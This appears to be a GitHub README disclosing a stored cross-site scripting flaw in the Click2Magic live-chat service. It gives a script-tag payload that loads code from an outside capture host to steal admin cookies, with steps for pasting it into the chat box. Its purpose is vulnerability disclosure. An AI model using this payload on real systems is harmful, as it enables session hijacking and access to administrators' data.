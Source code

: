 # CVE
This is my Repo for the CVE MITRE 



# Exploit Title: [Stored Cross Site Scripting]
# Date: 05/04/2022
# Exploit Author: [Shivam Verma]
# Vendor Homepage: [https://www.click2magic.com/]
# Software Link: [https://play.google.com/store/apps/details?id=com.tvisha.click2magic&hl=en_IN]
# Version: [1.1.5] 
# Tested on: [Kali Linux 2021.4]


Vulnerability Name: Stored Cross Site Scripting
Vulnerability Description: In this Scenario the payload is getting stored in the Server and delivering us the admin cookies we can capture admin cookies and see all the data in admin panel

Payload: "><script src=https://nick413.xss.ht></script>

Steps to reproduce: 
Step1: Goto Url: https://www.click2magic.com OR Download the app from the above link
STep2: Start a chat 
Step3: Put payload in the chat box
Payload: "><script src=https://nick413.xss.ht></script>
Step4: Wait for the admin to click on the link 
Step5: you will see the popup and getting admin cookies Confirming the Execution of payload

POC: 

